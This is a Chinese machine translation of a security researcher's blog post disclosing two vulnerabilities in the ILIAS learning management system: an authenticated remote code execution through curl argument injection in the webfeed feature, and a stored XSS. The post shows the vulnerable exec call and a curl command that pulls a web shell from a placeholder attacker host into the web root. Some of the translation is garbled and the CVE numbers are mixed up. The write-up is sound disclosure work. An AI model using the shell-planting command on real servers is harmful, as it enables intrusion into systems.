






# 开发 ILIAS 学习管理系统

> 原文：<https://infosecwriteups.com/exploiting-ilias-learning-management-system-4eda9e120620?source=collection_archive---------3----------------------->


在一个寂寞的周六晚上，我感到很无聊，所以我随便挑了一些申请看看。这个应用程序是 ILIAS 学习管理系统。

CVE-2020–25268-认证远程代码执行
CVE-2020–25267-认证存储跨站点脚本

# CVE-2020–25268

这是发现的最严重的漏洞，它将允许具有低权限的已验证用户获得代码执行。

导航到个人->概览后，ILIAS 允许您添加外部网络订阅源



当你发送一个请求时，它在你的服务器上看起来像这样



嗯，我想知道 0.72 是多少。在对漏洞进行快速搜索后，它显示了一堆 XSS 漏洞，然而没有运气真正利用它们，因为 ILIAS html 渲染是正确安全的。



深入研究一下源代码，我发现 magpie 使用的是一个名为 snoopy.class.inc 的库，其中 on _httpsrequest 函数通过 exec 调用 curl。我心想，该死的这个图书馆一定很古老(的确如此)。

查看第 656 行，您可以看到下面的代码

```
exec($this->curl_path.” -D \”/tmp/$headerfile\””.escapeshellcmd($cmdline_params).” “.escapeshellcmd($URI),$results,$return);
```

escapeshellcmd 将是很好的保护，如果你试图注入像“；whoamihostname”命令，但是它不能保护实际的二进制文件是否会被滥用。在这种情况下，curl 允许用一个命令远程获取文件。

卷发[https://maliciousactor.com/shell.php](https://maliciousactor.com/shell.php)-o/var/www/html/shell . PHP

因此，如果您以下面的方式运行该命令，您就可以在 web 服务器上上传您的恶意外壳。理想情况下，如果您知道允许写权限的路径。



即使在 POC 中看不到“Add New Webfeed ”,此功能也可以工作，但是您必须知道/枚举 Cmdnode 参数。

[](https://github.com/ILIAS-eLearning/ILIAS/commit/fa10f165476c449efba6d8a3b5a55df77146e96a) [## 修复了错误# 28867 ILIAS-eLearning/ILIAS @ fa10f 16

### 此时您不能执行该操作。您已使用另一个标签页或窗口登录。您已在另一个选项卡中注销，或者…

github.com](https://github.com/ILIAS-eLearning/ILIAS/commit/fa10f165476c449efba6d8a3b5a55df77146e96a) 

在 ILIAS 上执行认证代码

# CVE-2020 年至 25267 年

这是一个低优先级类型的漏洞，允许攻击者存储 XSS，但是要真正利用这一点，您需要中级权限来创建问题池。

问题池允许文件上传，但是有适当的限制，不允许任何 PHP 和其他类型的文件。经过仔细观察，我注意到您可以为文件添加 HTML 扩展名。



之后，您需要运行池，上传包含有效负载的 html 文件，并在预览中打开它。



[https://www.youtube.com/watch?v=wI5UlOXunl0&feature = youtu . be](https://www.youtube.com/watch?v=wI5UlOXunl0&feature=youtu.be)

# 顶部的樱桃——未经认证的反射 XSS

这个漏洞最初不是由我发现的，所以我不会因此而居功，但是有时做一个简单的谷歌搜索仍然会返回有效的和可利用的漏洞

[https://www.openbugbounty.org/reports/70516/](https://www.openbugbounty.org/reports/70516/)

# 披露时间表

2020 年 6 月 9 日—报告了该问题

2020 年 10 月 9 日—为修复而创建的票证

17/09/2020—代码执行漏洞已解决(CVE-2020–25267)，并已验证为已修复

2020 年 10 月 23 日—发布了包含修复程序的 ILIAS 6.5 和 5.4.18